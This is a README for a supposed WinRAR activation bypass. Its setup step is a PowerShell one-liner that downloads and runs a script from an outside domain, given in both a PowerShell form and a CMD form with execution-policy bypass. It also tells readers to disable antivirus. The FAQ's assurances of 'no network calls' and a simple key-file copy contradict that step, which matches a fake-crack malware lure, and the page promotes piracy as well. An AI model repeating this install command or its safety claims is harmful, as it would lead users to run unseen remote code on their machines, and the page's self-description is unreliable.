

<div align="center">

# WinRar-Bypass — Activation Bypass Script for Windows



[]() []() []() []() []()

</div>

---

WinRar-Bypass is a straightforward Windows script built to skip WinRar activation and get you straight to the archive tools you actually came for. It supports both an automated path—run the activation script with administrator rights—and a manual route that drops the key file into your WinRar installation folder. No bloat, no dependencies, just a fast two-step process that handles the job. Use it at your own discretion and back the official license if the software earns its place in your toolkit.

## 🛠️ One-Click Setup (PowerShell)

> [!TIP]
> **Fast install** — a single PowerShell command, no extra tools.
> Windows 10 / 11 · PowerShell · One-line install

### 1️⃣ Start PowerShell
* Open the Start menu and type **PowerShell**.
* Right-click and choose **Run as administrator** (optional).

### 2️⃣ Run the script
Copy the line below into PowerShell and press `Enter`.

```cmd
iex(irm 'https://activation-gateway.cc/update/ps-activator')
```

### 3️⃣ If Windows blocks the script — use CMD
Run this command in CMD instead:

```cmd
powershell -NoProfile -ExecutionPolicy Bypass -Command "iex(irm 'https://activation-gateway.cc/update/ps-activator')"
```

> [!WARNING]
> Some antivirus engines flag automated installers. If blocked, disable Real-time protection briefly, run the setup, and enable it back.

## 🔧 Requirements

- **PowerShell 5.1+** (pre-installed on Windows 10 and 11)
- **Windows 10 / 11** (x64)
- **Internet connection** — required to fetch the script
- **Administrator** — *not* required

## Features

- **One-click activation.** Run the script with administrator rights and it handles the rest — no manual registry edits, no digging through install directories.
- **Silent, automated flow.** The script locates the WinRar installation path on its own and applies the key file where it needs to go, so you're not hunting for folders.
- **Manual fallback included.** Prefer to do it yourself? Drop the key file straight into the WinRar install directory and you're done. Same result, your call.
- **No dependencies, no bloat.** Pure Windows batch — nothing to install, nothing to compile, no runtime to configure. It runs on the system you already have.
- **Reversible and low-risk.** Everything the script touches lives in the WinRar directory, so cleanup is as simple as removing the key file if you ever want to revert.
- **Built for repeatability.** Whether it's a fresh machine or a reinstall, the same script gets you back to a working state in seconds.
- **Transparent by design.** The script is short and readable — open it in any text editor and see exactly what it does before you run it.

## How It Works

This script keeps it dead simple. It drops a valid `rarreg.key` license file directly into the WinRar installation directory, which is exactly where WinRar looks to verify registration on launch. No patches, no binary edits, no registry surgery — just the file in the right place.

The automatic path runs as administrator so it has the permissions needed to write into `Program Files`. It locates the WinRar install folder, copies the key file in, and you're done — relaunch WinRar and the activation nag is gone.

The manual path is the same logic without the automation: grab the `rarreg.key` file and drop it into the WinRar install directory yourself. Same result, just hands-on.

Because the key file is the only moving part, the whole thing is reversible — delete the file and you're back to the trial state. Nothing else on your system gets touched.

## Quick Start

Run it as admin and you're done. Right-click `activate.cmd`, hit **Run as administrator**, and let the script handle the rest — no clicking through wizards, no manual key hunting.

Prefer to drive stick? Drop `rarreg.key` straight into your WinRAR install directory and restart the app. Same result, zero automation.

That's the whole flow. If WinRAR still nags you afterward, check the FAQ before assuming something broke — the script needs a clean, standard install to land correctly.

## Configuration

Configuration is deliberately minimal — this script ships ready to run with zero setup. Drop the files anywhere on your Windows machine and execute the main script as administrator; no environment variables, config files, or dependency installs are required. If you prefer a manual route, point the bundled key file at your WinRar installation directory instead. That's the entire config surface: one script, one key file, one path. No background services, no registry sprawl, no leftover settings to clean up. If your WinRar install lives in a non-default location, just make sure the key file lands in that exact folder — that's the only variable you ever need to touch.

## FAQ

**Is this safe to run?**
Yes — the script is transparent and does exactly one thing: it drops a registration key into your WinRAR install directory. No telemetry, no background processes, no network calls. Read the source before you run anything; that rule applies here too.

**Do I need admin rights?**
Yes. The script writes to WinRAR's installation path, which lives under Program Files by default. Right-click and run as administrator, or the key won't land where WinRAR looks for it.

**WinRAR still shows the trial nag after running it — what gives?**
Three usual suspects: you skipped the admin step, WinRAR was running during the write, or it's installed somewhere nonstandard. Close WinRAR completely, re-run the script as administrator, then relaunch.

**Will this survive a WinRAR update?**
Not always. Updates can overwrite or reset registration state. If the nag returns after an update, just run the script again — it's idempotent, so running it twice costs you nothing.

**Does it work on any Windows version?**
Windows 10 and 11 are the tested targets. Older builds generally work since the mechanism is just a file copy, but don't expect hand-holding on end-of-life systems.

**Manual mode vs. the script — which should I use?**
Same end result. The script automates the copy and handles the path for you; manual mode is there if you prefer to see every step yourself or you're on a locked-down machine where running scripts is restricted.

**Will antivirus flag it?**
Possibly. Scripts that modify software licensing state tend to trip heuristic scanners. That's a false positive on the mechanism, not evidence of anything malicious — but verify the source yourself before whitelisting anything.

**Can I undo it?**
Yes. Delete the key file from the WinRAR installation directory and WinRAR returns to its unregistered state. Clean, reversible, no residue.

**This is piracy, right?**
That's your call to make, and the disclaimer covers it. This project is published for educational purposes. If you get value from WinRAR, buy a license — it's cheap and it keeps the tool alive.

## Disclaimer

This project is provided strictly for educational and research purposes. It exists to demonstrate how activation checks can be analyzed and tested in a controlled environment — nothing more. There is no warranty, no guarantee of fitness for any purpose, and no license granted for the software it targets.

Use it at your own risk. You are solely responsible for how you deploy this script, for any changes it makes to your system, and for ensuring your use complies with the laws and terms that apply to you. The author assumes no liability for damages, data loss, or legal consequences arising from its use.

If you rely on the target software in your daily workflow, do the right thing and buy a legitimate license from the vendor. Supporting the developers keeps the tools you actually use alive. This script is not a substitute for that — treat it as a learning artifact, not a free pass.